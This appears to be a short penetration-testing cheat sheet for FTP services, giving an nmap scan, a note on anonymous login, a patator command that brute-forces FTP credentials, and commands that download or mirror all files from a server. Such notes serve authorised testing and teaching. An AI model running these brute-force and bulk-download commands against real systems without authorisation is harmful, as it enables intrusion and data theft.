 # FTP - Methodology

### RECON

Nmap can be used to detect open FTP service and conduct basic recon scan:  

```
nmap -v -sV -sC -p <PORT> <TARGET>
```

### EXPLOITATION

#### Anonymous logging

The server may allow anonymous connections with the *anonymous* or *ftp*
accounts.
No password is required to connect as an anonymous.

#### Bruteforce

To bruteforce FTP credentials, the following tools can be used:

```
patator ftp_login host=<TARGET> user=FILE0 password=FILE1 0=<WORDLISTUSER> 1=<WORDLISTPASSWORD> -x ignore:mesg='Login incorrect.' -x ignore:mesg='User cannot log in.' -x ignore,reset,retry:code=500
```

### POST EXPLOITATION

To get the file integrity while downloading, use the binary mode:

```
ftp> binary
# 200 Type set to I.
```

Print file from FTP session:

```
get <FILE> -
```

Download file from FTP session:

```
get <FILE>
```

Download every files from the FTP server:

```
wget --mirror ftp://<USER>:<PASSWORD>@<IP>:<PORT>
```
